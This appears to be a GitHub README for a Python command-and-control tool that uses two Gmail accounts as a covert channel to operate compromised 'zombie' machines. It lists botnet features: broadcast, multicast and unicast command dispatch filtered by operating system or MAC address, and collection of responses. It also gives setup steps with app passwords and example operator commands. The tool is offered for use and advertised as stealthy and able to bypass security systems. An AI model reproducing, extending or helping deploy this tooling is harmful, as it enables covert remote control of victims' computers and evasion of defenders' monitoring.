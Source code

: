 # Sealth Gmail C2 2024 Ready

## Introduction
The project consists of a completely stealthy C&C (Command and Control) solution with a Client/Server architecture. 
The project is written in Python and also works after Google's policy updates.
Read my Article about the project on redhotcyber.com(You will need to translate it) :
https://www.redhotcyber.com/post/come-realizzare-un-command-control-utilizzando-gmail-in-16-steps-per-bypassare-qualsiasi-sistema-di-sicurezza/


## Table of Contents

1. [Introduction](#introduction)
2. [Server Features](#serverfeatures)
3. [Client Features](#clientfeatures)
4. [Requirements](#requirements)
5. [Installation](#installation)
6. [Configuration](#configuration)
7. [Usage](#usage)


## Server Features

- Send Commands to Zombies
- Sending Filter (Send only to Windows Machines)
- Sending Filter (Send only to Linux Machines)
- Broadcast Communication
- Multicast Communication (Group must be specified)
- Unicast Communication (Mac address must be specified)
- Get Responses from zombies

## Client Features
- Receive commands from C&C Servers
- Send commands feedback to C&C Servers

## Requirements

- you ought to install Python3
- you need to install modules listed in requirements.txt

## Installation

#Install Requirements
  Once you cloned repository you have to install requirements listed in requirements.txt
  You should use this command: pip install -r requirements.txt

## Configuration
#Create two gmail account
  In order to use the solution you need to create two gmail accounts. These two need to be personal accounts.

#Generate Password app
  Follow official google guide to generate a password-app for both the two gmail account you created before.
  Link: https://support.google.com/mail/answer/185833?hl=en

#Put password app into the code
  Copy the password app you created in the previous step and paste it in either the client or the server script.

## Usage
Server.Py:

Command Example 1 -> Send "dir" command to all windows zombie

python3 Server.py -c dir -o windows -t broadcast


Commad Example 2 -> send "ifconfig" command to all linux zombie

python3 Server.py -c ifconfig -o linux -t broadcast


Commad Example 3 -> send "ifconfig" command to linux zombie into the phoenix group

python3 Server.py -c ifconfig -o linux -t multicast -g phoenix_group


Commad Example 4 -> send "ifconfig" command to a defined linux machine

python3 Server.py -c ifconfig -o linux -t unicast -m <mac_address>


Commad Example 5 -> Get Responses from zombies

python3 Server.py -c update

Client.Py:

No commands required, it is plug and play, just start it.


